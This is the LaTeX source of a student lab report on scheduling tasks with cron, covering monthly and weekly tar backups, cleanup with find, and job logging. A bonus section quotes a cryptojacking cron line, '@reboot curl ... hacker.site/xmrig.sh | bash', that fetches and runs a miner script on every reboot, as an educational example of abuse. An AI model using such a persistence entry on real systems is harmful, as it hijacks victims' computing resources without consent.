\documentclass{article}

\usepackage{titlesec}
\titlelabel{\thetitle.\quad}

\usepackage[T1]{fontenc}
\usepackage{inconsolata}

\usepackage[english]{babel}
\usepackage[letterpaper,top=2cm,bottom=2cm,left=2.5cm,right=2.5cm,marginparwidth=1.25cm]{geometry}

\usepackage{hyperref, booktabs, float}
\usepackage[leqno]{amsmath}
\usepackage{enumitem, nccmath,lipsum,amssymb,xcolor,xparse,listings, blindtext}
\usepackage[most]{tcolorbox}

\usepackage{graphicx}
\graphicspath{ {./attachments/} }

\definecolor{light-gray}{gray}{0.9}
\newcommand{\code}[1]{\colorbox{light-gray}{\texttt{#1}}}

\title{Lab 6: Scheduling Tasks}
\author{Mashenkov Timofei B23-CBS-02 \\ \href{mailto:t.mashenkov@innopolis.university}{t.mashenkov@innopolis.university}}
\begin{document}
\maketitle{}

\section{Backup every month on the fifth day}
\noindent

Here I specified:
\begin{itemize}
	\item \code{0 0 5 * *}: Runs at 00:00 on the 5th day of every month.
	\item \code{tar -czf} (in script): Creates a compressed archive with a timestamped filename.
\end{itemize}


\includegraphics[width=460pt]{6_1.jpg}
\newline

For cleanup, I specified:
\begin{itemize}
	\item \code{@daily 10}: Runs daily, with a 10-minute delay.
	\item \code{find} (in script): Deletes files older than 30 days with corresponding name.
\end{itemize}


\includegraphics[width=460pt]{6_2.jpg}
\newpage

\section{Backup every week on Sunday}
\noindent

Here I specified:
\begin{itemize}
	\item \code{0 0 * * 0}: Runs at 00:00 on Sunday.
	\item \code{tar -czf} (in script): Creates a compressed archive with a timestamped filename.
	\item \code{find} (in script): Deletes files older than 28 days with corresponding name.
\end{itemize}


\includegraphics[width=460pt]{6_3.jpg}
\newpage

\section{Logging Jobs}
\noindent

First, I created a log file, then I added cron entities in the for loop (all the details are in the script).


\includegraphics[width=460pt]{6_4.jpg}

\section{Bonus. Cron Jobs Abuse}

\begin{center}
  \code{@reboot curl -s http://hacker.site/xmrig.sh | bash  }
\end{center}

\begin{itemize}
	\item Frequency: On every system reboot.
	\item Command: Fetches and runs a cryptojacking script.
	\item Objective: Secretly mine cryptocurrency using victim’s resources.
	\item Real-Life Abuse: Attackers exploited misconfigured servers to deploy cron jobs running XMRig miners, draining CPU resources for Monero mining.
\end{itemize}


\end{document}
